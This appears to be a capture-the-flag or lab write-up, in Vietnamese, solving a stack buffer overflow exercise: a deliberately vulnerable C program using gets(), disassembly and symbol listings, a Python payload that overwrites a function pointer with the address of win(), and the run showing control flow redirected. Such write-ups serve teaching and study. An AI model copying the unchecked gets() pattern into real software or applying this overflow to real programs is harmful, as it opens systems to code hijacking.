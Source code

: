 # Preview
Source code:
```shell
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);     <---- vuln

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

Tổng quan:
- Biến con trỏ *fp
- Vuln nằm ở hàm gets(buffer)
- Ý tưởng: thay đổi giá trị biến fp để trỏ sang hàm win().

# Exploit

Tính toán offset

Biến buffer[] và biến fp tương tự như stack0.
```shell
.....
   0x080491fc <+75>:    add    esp,0x10
   0x080491ff <+78>:    mov    eax,DWORD PTR [ebp-0xc]
   0x08049202 <+81>:    call   eax  <--- call tới hàm có địa chỉ có giá trị là biến fp
....
```
Giá trị của biến fp được ghi đè phải bằng địa chỉ của hàm win() trong chương trình.
```shell
pwndbg> info func
All defined functions:

Non-debugging symbols:
0x08049000  _init
0x08049030  __libc_start_main@plt
0x08049040  printf@plt
0x08049050  gets@plt
0x08049060  puts@plt
0x08049070  _start
0x0804909d  __wrap_main
0x080490b0  _dl_relocate_static_pie
0x080490c0  __x86.get_pc_thunk.bx
0x080490d0  deregister_tm_clones
0x08049110  register_tm_clones
0x08049150  __do_global_dtors_aux
0x08049180  frame_dummy
0x08049186  win         <---- địa chỉ hàm win()
0x080491b1  main
0x08049213  __x86.get_pc_thunk.ax
0x08049218  _fini
```

**Payload**
```shell
buffer = "a" * 64
win = "\x86\x91\x04\x08"        # litte endian

print(buffer + win)
```

**Attack**
```shell
└─$ python2 payload.py > input
```
```shell
└─$ ./vuln < input
calling function pointer, jumping to 0x08049186
code flow successfully changed
Segmentation fault
```

